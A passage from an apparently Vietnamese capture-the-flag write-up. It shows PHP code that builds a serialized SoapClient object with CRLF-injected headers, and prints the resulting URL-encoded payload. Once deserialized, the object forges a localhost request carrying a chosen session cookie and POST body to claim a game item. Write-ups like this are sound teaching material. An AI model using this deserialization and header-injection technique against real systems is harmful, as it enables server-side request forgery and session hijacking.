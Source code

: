 ![86.PNG](../assets/images/86.PNG)  

Header `User-Agent` lại ở trên `Content-Type` nên việc ghi đè là hoàn toàn có thể :v  
Tóm lại mình gen payload để lấy master_ball như sau: Lưu ý là do số `master_ball` lưu trong `$_SESSION` nên cần thêm cookie `PHPSESSID` để định danh cho session ta muốn lấy `master_ball`
```php
<?php
$data = "ball=master_ball";
$o = new SoapClient(null,array('location'=>'http://localhost/ctf/svattt/get_more_ball.php','uri'=>'cc', 'user_agent' => "a\r\nCookie: PHPSESSID=a9pgltk0cp2h3tpat8p7pdvm66\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length:".(string)strlen($data)."\r\n\r\n".$data."\r\n"));
// $o->lol();
echo urlencode(serialize($o));
// O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A2%3A%22cc%22%3Bs%3A8%3A%22location%22%3Bs%3A45%3A%22http%3A%2F%2Flocalhost%2Fctf%2Fsvattt%2Fget_more_ball.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A137%3A%22a%0D%0ACookie%3A+PHPSESSID%3Da9pgltk0cp2h3tpat8p7pdvm66%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A16%0D%0A%0D%0Aball%3Dmaster_ball%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```
Submit lên và đợi một lúc ...  

![87.PNG](../assets/images/87.PNG)  

Check lại và ta đã có 1 master_ball 😍  

